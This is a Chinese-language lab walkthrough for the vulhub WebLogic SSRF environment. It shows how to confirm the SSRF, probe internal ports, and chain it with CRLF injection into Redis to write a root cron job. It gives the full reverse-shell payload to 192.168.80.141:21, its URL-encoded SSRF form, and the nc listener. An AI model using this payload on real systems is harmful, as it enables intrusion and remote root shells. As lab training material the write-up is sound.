# Weblogic SSRF漏洞

> Path  :  vulhub/weblogic/ssrf

编译及启动测试环境

```bash
docker compose up -d
```

Weblogic中存在一个SSRF漏洞，利用该漏洞可以发送任意HTTP请求，进而攻击内网中redis、fastcgi等脆弱组件

访问`http://127.0.0.1:7001/uddiexplorer/`，无需登录即可查看uddiexplorer应用



点击`Search Public Registries`



来到`http://127.0.0.1:7001/uddiexplorer/SearchPublicRegistries.jsp`页面

        

### 漏洞测试

  打开`BurpSuite`测试，点击`Search`按钮

`Ctrl+r`发送到`Repeater`模块，观察数据包



根据数据包的响应信息，可以猜测`operator`参数后面可以跟一个`url地址`

利用[dnslog](http://dnslog.cn/)平台测试，生成一个域名





成功解析到，说明`operator`后面 可以做`url地址请求`，说明存在`SSRF 漏洞`



访问一个可以访问的IP:PORT，如`http://127.0.0.1:80`



发现`80`端口没有开放

在访问`7001`端口，



通过错误的不同，即可探测内网状态。


环境是在`docker`上启动的，（docker环境的网段一般是172.*）



#### 注入HTTP头，利用Redis反弹shell

发送三条redis命令，将弹shell脚本写入`/etc/crontab`：

反弹到kali上

```bash
set 1 "\n\n\n\n0-59 0-23 1-31 1-12 0-6 root bash -c 'sh -i >& /dev/tcp/192.168.80.141/21 0>&1'\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```

进行url编码

```bash
set%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20'sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.80.141%2F21%200%3E%261'%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave
```

注意，换行符是“\r\n”，也就是“%0D%0A”。

将url编码后的字符串放在ssrf的域名后面，发送：

```bash
http://172.19.0.2:6379/saury%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20'sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.80.141%2F21%200%3E%261'%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Asaury
```

kali开启监听：

```bash
nc -lvvp 21
```

bp发送请求



等待计划任务生效



成功拿到`shell`

### 问题解决

在使用`sudo docker-compose up -d`启动环境的时候，只启动了`weblogic`，没有启动`redis`



修改如下配置

```bash
vim /etc/default/grub
GRUB_CMDLINE_LINUX_DEFAULT="vsyscall=emulate"
```



`:wq`保存后，命令行运行`update-grub`

` reboot`重启，redis成功启动

> 解决方法来自:https://blog.csdn.net/weixin_43886198/article/details/111144854